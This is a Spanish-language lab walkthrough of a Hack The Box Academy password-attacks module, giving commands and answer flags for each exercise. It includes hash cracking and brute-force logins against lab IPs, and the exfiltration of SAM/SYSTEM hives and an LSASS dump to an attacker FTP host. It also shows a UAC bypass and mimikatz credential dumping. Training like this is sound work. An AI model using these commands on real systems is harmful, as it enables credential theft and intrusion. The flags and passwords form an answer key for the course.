# Password Attacks

## Password Cracking Techniques

### Introduction to Password Cracking

1. **What is the SHA1 hash for `Academy#2025`?**

```
echo -n "Academy#2025" | sha1sum
```

answer: **750fe4b402dc9f91cedf09b652543cd85406be8c**

### Introduction to John The Ripper

1. **Use single-crack mode to crack r0lf's password.**

Leyendo el temario me encuentro con lo siguiente:

>r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash

Lo guardo en el archivo **usuario.txt** y luego uso la herramienta **john**

```
john --single usuario.txt
```

<p align="center"> 

</p>

answer: **NAITSABES**

2. **Use wordlist-mode with rockyou.txt to crack the RIPEMD-128 password.**

Leyendo el temario me encuentro el siguiente hash **193069ceb0461e1d40d216e32c79c704** 

```
hashid -j 193069ceb0461e1d40d216e32c79c704
```

<p align="center"> 

</p>

y lo guardo en el archivo **hash_ripemd.txt**. Realizando el siguiente comando descifro la contraseña que se encuentra en formato **RIPEMD-28**

```
john --format=ripemd-128 --wordlist=/usr/share/wordlists/rockyou.txt hash_ripemd.txt
```

<p align="center"> 

</p>

Answer: **50cent**

### Introduction to Hashcat

1. **Use a dictionary attack to crack the first password hash. (Hash: e3e3ec5831ad5e7288241960e5d4fdb8)**

```
 hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt
```

answer: **crazy!**

2. **Use a dictionary attack with rules to crack the second password hash. (Hash: 1b0556a75770563578569ae21392630c)**


```
hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule
```

Imagina que tu diccionario (`rockyou.txt`) solo tiene una palabra: `password`. Cuando aplicas un archivo de reglas como `best66.rule`, Hashcat toma esa palabra y genera una "cascada" de variaciones:

| **Regla**   | **Acción**                      | **Resultado generado** |
| ----------- | ------------------------------- | ---------------------- |
| **Nada**    | (Original)                      | `password`             |
| **`c`**     | Capitalizar (primera mayúscula) | `Password`             |
| **`$1`**    | Añadir un "1" al final          | `password1`            |
| **`u`**     | Todo a mayúsculas               | `PASSWORD`             |
| **`^!`**    | Añadir "!" al principio         | `!password`            |
| **`s a 4`** | Cambiar las 'a' por '4'         | `p4ssword`             |

answer: **c0wb0ys1**

3. **Use a mask attack to crack the third password hash. (Hash: 1e293d6912d074c0fd15844d803400dd)**

>Al poner `'?u?l?l?l?l?d?s'`, le estás diciendo a Hashcat que pruebe **todas** las combinaciones posibles que cumplan este patrón de **7 caracteres**:

1. Una mayúscula.
2. Seguida de 4 minúsculas.
3. Seguida de 1 número.
4. Terminando con 1 símbolo.

```
hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'
```

answer: **Mouse5!**

### Writing Custom Wordlists and Rules

1. **What is Mark's password?**

Como me ha dando el hash de la contraseña: **97268a8ae45ac7d15c3cea4ce6ea550b**

En esta pagina [Desecripté](https://hashes.com/en/decrypt/hash) el hash. 

<p align="center"> 

</p>

answer: **Baseball1998!**

### Cracking Protected Files

1. **Download the attached ZIP archive (cracking-protected-files.zip), and crack the file within. What is the password?**

Descomprimes .zip y te dará un archivo llamado **Confidential.xlsx**

```
python3 /usr/share/john/office2john.py Confidential.xlsx > excel.txt
sudo john --wordlist=/usr/share/wordlists/rockyou.txt excel.txt 
```

<p align="center"> 

</p>

answer: **beethoven**

### Cracking Protected Archives

1. **Run the above target then navigate to http://ip:port/download, then extract the downloaded file. Inside, you will find a password-protected VHD file. Crack the password for the VHD and submit the recovered password as your answer.**

```
unzip cracking-protected-archives.zip
bitlocker2john -i Private.vhd > backup.hashes
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hashes
```

<p align="center"> 

</p>

answer: **francisco**

2. **Mount the BitLocker-encrypted VHD and enter the contents of flag.txt as your answer.**

```
mkdir media
cd media
mkdir bitlocker  
mkdir bitlocker_mount
sudo losetup -f -P /home/dani/Escritorio/Private.vhd
lsblk
```

- **`sudo`**: Necesitas permisos de administrador porque estás creando un "hardware" virtual.
- **`-f` (find)**: Le dice a Kali: _"Busca el primer dispositivo loop que esté libre"_ (por ejemplo, `/dev/loop0`). Así no tienes que adivinar cuál usar.
- **`-P` (partscan)**: Esta es la parte más importante para tu caso. Le dice a Kali: _"Lee el interior de este archivo VHD y, si encuentras particiones, créame dispositivos separados para ellas"_ (por esto te aparecieron `loop0p1`, etc.).
- **`/home/.../Private.vhd`**: Es la ruta del archivo que quieres "conectar".

<p align="center"> 

</p>

```
sudo dislocker /dev/loop0p1 -ufrancisco -- ./bitlocker
sudo mount -o loop ./bitlocker/dislocker-file ./bitlocker_mount
```

<p align="center"> 

</p>

answer: **43d95aeed3114a53ac66f01265f9b7af**

## Remote Password Attacks

### Network Services

1. **Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

```
wget https://cdn.services-k8s.prod.aws.htb.systems/content/questions/file/3c72cefc-4d6a-413d-ad3e-395431df28bc.zip
netexec winrm 10.129.202.136 -u username.list -p password.list -t 100
```

Credencial: **john**:**november**

```
netexec winrm 10.129.202.136 -u john -p november
```

<p align="center"> 

</p>

```
evil-winrm -i 10.129.202.136 -u 'john' -p 'november'
```

<p align="center"> 

</p>

answer: **HTB{That5Novemb3r}**

2. **Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

```
hydra -P password.list -L username.list ssh://10.129.202.136
```

Credencial: **dennis**:**rockstar**

```
ssh dennis@10.129.202.136
powershell
cd desktop
cat flag.txt
```

answer: **HTB{Let5R0ck1t}**

3. **Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

```
hydra -P password.list -L username.list rdp://10.129.202.136
xfreerdp /u:chris /p:789456123 /v:10.129.202.136
```

answer: **HTB{R3m0t3DeskIsw4yT00easy}**

4. **Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.**

```
msfconsole -q
search scanner smb
set rhost 10.129.202.136
set user_file /home/dani/Escritorio/htbAcademy/password_attacks/username.list
set pass_file /home/dani/Escritorio/htbAcademy/password_attacks/password.list
run
```

Credenciales: **cassie**:**12345678910**

```
netexec smb 10.129.202.136  -u 'cassie' -p '12345678910'
```

<p align="center"> 

</p>

```
netexec smb 10.129.202.136  -u 'cassie' -p '12345678910' --shares
```

<p align="center"> 

</p>

```
smbclient //10.129.202.136/CASSIE -U cassie
ls
get flag.txt
```

answer: **HTB{S4ndM4ndB33}**

### Spraying, Stuffing, and Defaults

1. **Use the credentials provided to log into the target machine and retrieve the MySQL credentials. Submit them as the answer. (Format: `<username>:<password>`)**

SSH to with user "<font color="#00b050">sam</font>" and password "<font color="#c00000">B@tm@n2022!</font>"

Para resolver esto tenemos que crearnos un **Entorno Virtual** y luego dentro instalamos y llevamos acabo la herramienta **creds**

```
python3 -m venv mi_entorno
source mi_entorno/bin/activate
pip install defaultcreds-cheat-sheet
creds search mysql
```

<p align="center"> 

</p>

Credenciales --> **superdba**:**admin**

```
ssh sam@10.129.44.170
mysql -u superdba -p
show databases;
use users;
show tables;
select * from creds;
```

<p align="center"> 

</p>

Como podemos visualizar las credenciales de otros usuarios podemos decir que estas credenciales
sirven:

answer: **superdba**:**admin**

## Extracting Passwords from Windows Systems

### Attacking SAM, SYSTEM, and SECURITY

1. **Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**

RDP to with user "<font color="#00b050">Bob</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

La base de datos SAM se encuentra en el registro de Windows, en la ruta **HKLM\SAM**, tal como se indica en los materiales del curso.

answer: **HKLM\SAM**

2. **Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)**

RDP to with user "<font color="#00b050">Bob</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:Bob /p:HTB_@cademy_stdnt! /v:10.129.202.137
```

Abrimos luego powershell como administrador y descargamos los diferentes tipos de SAM

```
reg.exe save HKLM\SAM C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

- **SAM (Security Accounts Manager):** Es la base de datos que contiene los **hashes de las contraseñas de los usuarios locales**.
- **SYSTEM (System Hive):** Este archivo contiene la **SysKey** (llave del sistema). Los datos dentro de la SAM están cifrados, y la llave necesaria para descifrarlos y poder leer los hashes de las contraseñas se encuentra aquí.
- **SECURITY (Security Hive):** Aquí se guardan las políticas de seguridad del sistema y, lo más importante, los **LSA Secrets** (Secretos de la Autoridad de Seguridad Local). Contiene información sobre cuentas de servicio, contraseñas de cuentas de equipo en un dominio y, a veces, credenciales de inicio de sesión de dominio almacenadas en caché.

<p align="center"> 

</p>

Para llevar acabo esto el usuario tiene que tener activado el privilegio **SeBackupPrivilege** que permite leer y copiar estos archivos mientras el sistema está encendido. Estar dentro del grupo Administrador.

En kali preparamos el puerto de escucha dentro en un entorno virtual.

```
python3 -m venv mi_entorno
source mi_entorno/bin/activate
sudo pip3 install pyftpdlib --break-system-packages
sudo python3 -m pyftpdlib --port 21 --write
```

Luego en windows, usando la powershell como administrador

```
(New-Object Net.WebClient).UploadFile('ftp://10.10.15.212/sam.save', 'C:\sam.save')
(New-Object Net.WebClient).UploadFile('ftp://10.10.15.212/security.save', 'C:\security.save')
(New-Object Net.WebClient).UploadFile('ftp://10.10.15.212/system.save', 'C:\system.save')
```

Fuera del entorno virtual, ejecutamos el siguiente comando donde se encuentra los archivos sam:

```
sudo impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL > hashall.txt
```

Para que el comando funcione, los archivos `sam.save`, `system.save` y `security.save` deben estar en el **directorio actual**

>[*] Target system bootKey: 0xd33955748b2d17d7b09c9cb2653dd0e8
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
jason:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
frontdesk:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
[*] NL$KM 
 0000   E4 FE 18 4B 25 46 81 18  BF 23 F5 A3 2A E8 36 97   ...K%F...#..*.6.
 0010   6B A4 92 B3 A4 32 DE B3  91 17 46 B8 EC 63 C4 51   k....2....F..c.Q
 0020   A7 0C 18 26 E9 14 5A A2  F3 42 1B 98 ED 0C BD 9A   ...&..Z..B......
 0030   0C 1A 1B EF AC B3 76 C5  90 FA 7B 56 CA 1B 48 8B   ......v...{V..H.
NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
[*] _SC_gupdate 
(Unknown User):Password123

Como nos interasa el la contraseña del usuario **ITbackdoor** escogemos su hashNTLM **c02478537b9727d391bc80011c2e2321**

```
hashcat -a 0 -m 1000 c02478537b9727d391bc80011c2e2321 /usr/share/seclists/Passwords/Leaked-Databases/rockyou-**.txt
```

answer: **matrix**

3. **Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)**

```
netexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

El LSA es un proceso en Windows que maneja las políticas de seguridad local y la autenticación. Cuando usas el flag `--lsa`, NetExec intenta leer la memoria o el registro del sistema para obtener:

1. **Credenciales de cuentas de servicio.**
    
2. **Contraseñas de cuentas de equipo.**
    
3. **Tickets de Kerberos o contraseñas en texto plano** que hayan quedado residentes en memoria (si el sistema es antiguo o está mal configurado).
    
4. **Credenciales de cuentas de dominio** si alguien de un dominio ha iniciado sesión en esa máquina.

<p align="center"> 

</p>

Si visualizamos el archivo podemos ver mejor las credenciales:

```
cat /home/dani/.nxc/logs/lsa/FRONTDESK01_10.129.202.137_2026-05-12_153710.secrets
```

>dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
frontdesk:Password123

answer: **frontdesk**:**Password123**

### Attacking LSASS

1. **What is the name of the executable file associated with the Local Security Authority Process?**

Se trata del Servicio del Subsistema de Autoridad de Seguridad Local (lsass.exe), el mismo módulo del que ya se ha hablado. Por lo general, este servicio almacena datos de sesión confidenciales, incluyendo contraseñas y sus valores en formato hash.

answer: **lsass.exe**

2. **Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp3 /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.202.149
# Abrimos powershell como administrador
Get-Process lsass
```

Usamos este comando para saber que PID tiene el protocolo lsass porque lo usaremos en el siguiente comando

<p align="center"> 

</p>

```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 664 C:\lsass.dmp full
dir C:\
```

El comando que has escrito es una técnica clásica de **exfiltración de credenciales** en entornos Windows.

Le estás pidiendo a una herramienta oficial de Windows que "le tome una foto" a toda la memoria de LSASS y la guarde en un archivo en el disco

<p align="center"> 

</p>

En nuestra kali, activamos el puerto de escucha, recuerda que tiene que estar dentro de un entorno virtual:

```
sudo python3 -m pyftpdlib --port 21 --write
```

y en Windows escribimos el siguiente comando para descargar el archivo lsass 

```
(New-Object Net.WebClient).UploadFile('ftp://10.10.15.212/lsass.dmp', 'C:\\lsass.dmp')
```

Una vez descargado el archivo ejecutamos el siguiente comando en la kali:

```
pypykatz lsa minidump ./lsass.dmp | tee lsass.txt
```

- `pypykatz`

Es la implementación en **Python** de la famosa herramienta **Mimikatz**. Su función principal es extraer "secretos" de los archivos de volcado de LSASS. Al estar escrita en Python, es muy versátil porque puede ejecutarse incluso en Linux o macOS para analizar un archivo extraído de Windows.

- `lsa minidump ./lsass.dmp`

Aquí le estás dando instrucciones específicas a la herramienta:

**`lsa`**: Le dice a pypykatz que quieres trabajar con el subsistema de la Autoridad de Seguridad Local (LSA).
**`minidump`**: Indica que la fuente de los datos no es el sistema en vivo, sino un archivo de volcado de memoria (el que intentaste crear anteriormente).
**`./lsass.dmp`**: Es la ruta del archivo que quieres analizar.

`| tee lsass.txt`

El símbolo `|` (pipe) toma la salida del comando anterior y la pasa al comando `tee`.
**`tee`**: Es una "T" que divide el flujo de información: muestra los resultados en la **pantalla** para que los veas en tiempo real y, al mismo tiempo, los guarda en el archivo **`lsass.txt`**.

<p align="center"> 

</p>

El hash del usuario Vendor es **31f87811133bc6aaa75a536e77f64314** lo descodificamos.

```
hashcat -a 0 -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt
```

credenciales: `Vendor`: `Mic@123`

answer: **Mic@123**

### Attacking Windows Credential Manager

1. **What is the password mcharles uses for OneDrive?**

RDP to with user "<font color="#00b050">sadams</font>" and password "<font color="#c00000">totally2brow2harmon@</font>"

```
xfreerdp3 /u:sadams /p:totally2brow2harmon@ /v:10.129.234.171
```

```
cmdkey /list
```

<p align="center"> 

</p>

```
runas /savecred /user:SRV01\mcharles cmd
whoami
```

<p align="center"> 

</p>

```
cmdkey /list
```

<p align="center"> 

</p>

```
msconfig UAC bypass
```

**Tools** - **command prompt** y haga clic en el botón de ejecución

<p align="center"> 

</p>

Esto inicia una ventana de comandos con permisos elevados (de administrador), incluso si la función UAC está activada, y obtengo los permisos de admin.

Luego, Traslado **mimikatz.exe** a una carpeta donde tengo instalado el entorno virtual y luego activo el puerto de escucha.

```
cp mimikatz.exe /home/dani/Escritorio/htbAcademy/password_attacks/
sudo python3 -m pyftpdlib --port 21 --write
```

En Windows, descargo el programa en **C:/tools**

```
curl --output mimikatz.exe ftp://10.10.15.212/mimikatz.exe
```

<p align="center"> 

</p>

```
mimikatz.exe
privilege::debug
sekurlsa::credman
```

`privilege::debug` – Intenta habilitar el privilegio de depuración (SeDebugPrivilege) para el proceso actual, de modo que este pueda interactuar y leer la información de otros procesos (por ejemplo, lsass.exe).

`sekurlsa::credman` – Un módulo de Mimikatz cuyo objetivo son las credenciales almacenadas por el Administrador de Credenciales de Windows (y los datos confidenciales relacionados con LSASS). Intenta obtener una lista completa de dichas credenciales.

<p align="center"> 

</p>

answer: **Inlanefreight#2025**

### Attacking Active Directory and NTDS.dit

1. **What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.***)**

answer: **NTDS.dit**

2. **Submit the NT hash associated with the Administrator user from the example output in the section reading.**

El siguiente hash del administrador lo encontramos en los apuntes del tema. 

<p align="center"> 
